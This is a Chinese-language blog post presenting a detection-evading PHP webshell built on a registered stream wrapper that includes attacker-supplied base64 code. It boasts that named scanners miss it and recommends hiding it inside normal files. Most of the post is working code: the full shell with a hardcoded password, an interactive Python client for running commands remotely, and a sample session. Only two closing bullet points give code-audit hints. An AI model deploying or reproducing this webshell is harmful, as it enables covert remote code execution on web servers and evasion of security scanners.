 ```yaml
---
title: '非正常 PHP Shell - 产生Shell的一种新方法'  
date: 2018-07-03 10:02:44
tags: 
    - PHP
    - '网络安全'
categories:
    - '技术分享'
---
```


安全狗绕过是一个比较热门的话题？反正我这边这个`Shell` 经过 安全狗、https://scanner.baidu.com 、http://n.shellpub.com 的检测，没检测出来，美滋滋。

## 检测结果
- http://n.shellpub.com/zip/tid/6b86f122-0392-404b-a660-41ef11b38e15.html
- https://scanner.baidu.com/#/pages/scan_result?hash=fe0c44bd777ef0f9bae897ed79f3d4b9

<!-- more -->

## 产生原理

通过PHP函数 `stream_wrapper_register` 注册包装器，检测特定的URL包装功能，监控 `include` 流，在 `include` 流中动态生成PHP代码，本来是用来做PHP源代码加密的，但是想了下，好像这种方式还没有被安全狗检测，翻阅了大部分安全狗的检测机制，讲道理没有看到有关的文献。具体原理参考我的上一篇文章，不打算菜刀适配（其实是菜刀的运行原理我看起来头晕）。

## Shell代码 

代码稍微有些长，适合隐藏在正常的文件中使用


```php
<?php

/**
 * 异形 Shell，一串看似完全正常代码
 * @author dxkite <dxkite@qq.com>
 * @link //dxkite.cn
 */

class ShellStream
{
    protected $position;
    protected $code;

    public function stream_open($path, $mode, $options, &$opened_path)
    {
        $url = parse_url($path);
        $name = $url["host"];
        $this->code = base64_decode($name);
        $this->position = 0;
        $opened_path = __DIR__.DIRECTORY_SEPARATOR.md5($this->code).'.shell';
        return true;
    }

    public function stream_read($count)
    {
        $ret = substr($this->code, $this->position, $count);
        $this->position += strlen($ret);
        return $ret;
    }

    public function stream_tell()
    {
        return $this->position;
    }

    public function stream_eof()
    {
        return $this->position >= strlen($this->code);
    }

    public function stream_seek($offset, $whence)
    {
        switch ($whence) {
            case SEEK_SET:
                if ($offset < strlen($this->code) && $offset >= 0) {
                    $this->position = $offset;
                    return true;
                } else {
                    return false;
                }
                break;

            case SEEK_CUR:
                if ($offset >= 0) {
                    $this->position += $offset;
                    return true;
                } else {
                    return false;
                }
                break;
            case SEEK_END:
                if (strlen($this->code) + $offset >= 0) {
                    $this->position = strlen($this->code) + $offset;
                    return true;
                } else {
                    return false;
                }
                break;

            default:
                return false;
        }
    }
    public function stream_stat()
    {
        return [];
    }

    public static function shell(){
        if (isset($_POST['password']) && $_POST['code']) {
            stream_wrapper_register('shell', ShellStream::class);
            if ($_POST['password']=='dxkite') {
                $code = $_POST['code'];
                include 'shell://'.$code;
            } else {
                include 'shell://PD9waHAgZWNobyAiaGVsbG8gaGFjayI7';
            }
        }
    }
}

ShellStream::shell();
```

## 利用脚本

不打算做菜刀适配，本文仅供安全研究

```python
import requests 
import base64
import sys


def send_raw(url,password,cmd):
    res=requests.post(url,{
        'password':password,
        'code': base64.b64encode(cmd.encode('utf-8')) 
    })
    return res.text

def send_php_shell(url,password,cmd):
    return send_raw(url,password,'<?php '+cmd)

if __name__ == '__main__':
    if len(sys.argv) <= 1:
        print('Usage:\r\n\tpython shell.py url password')
        sys.exit(0)
    url = sys.argv[1]
    password =sys.argv[2]
    while True:
        cmd = input('php-shell>')
        if cmd == 'exit':
            break
        elif cmd.startswith('run'):
            cmd,path = cmd.split(' ',1)
            code = ''
            with open(path) as f:
                for line in f:
                    code = code + line + "\r\n" 
            response = send_raw(url,password,code);
            print(response)
        else:
            response = send_php_shell(url,password,cmd);
            print(response)
```

## 使用实例

```
PS D:\Server\Local\suda\public\assets\eval> python .\shell.py 'http://suda.atd3.org/assets/eval/shell.php' dxkite
php-shell>echo 'hello,dxkite';
hello,dxkite
php-shell>echo __FILE__;
D:\Server\Local\suda\public\assets\eval\6070fc111c81737d263f97471b4f31ee.shell
php-shell>exit
PS D:\Server\Local\suda\public\assets\eval>
```

## 代码审计避免此类Shell

- 接受了外部输入
- 注册了孤岛式的流包装器
